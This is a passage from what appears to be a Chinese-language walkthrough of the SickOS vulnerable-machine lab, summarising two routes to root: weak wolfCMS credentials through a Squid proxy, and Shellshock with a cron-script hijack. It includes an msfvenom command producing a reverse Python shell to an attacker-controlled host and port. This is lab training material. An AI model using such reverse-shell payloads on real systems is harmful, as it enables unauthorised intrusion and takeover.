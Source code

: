 ```bash
sudo msfvenom -p cmd/unix/reverse_python lhost=192.168.170.135 lport=444 -f raw 
```

拷贝这一大团 payload, 粘贴在 `connect.py` 后, 用 `cat` 验证一下:

![15.png](15.png)

![16.png](16.png)

之后就和解法 1 一样, 直接拿到了 root 账户。

### 总结

SickOS 的解法主要是两种:
-   利用 Squid 代理访问 wolfCMS, 尝试弱密码登录, 然后观察可知 CMS 可直接编辑网页源码, 从而实现执行任意 php 代码, 获取 www-data 的反弹 shell, 再通过后台暴露的信息尝试登录高权限用户从而提权。
-   利用 Shellshock 漏洞, 伪造请求构造环境变量直接获取 www-data 的反弹 shell, 然后通过修改 crontab 定时任务的执行脚本来完成 root 提权。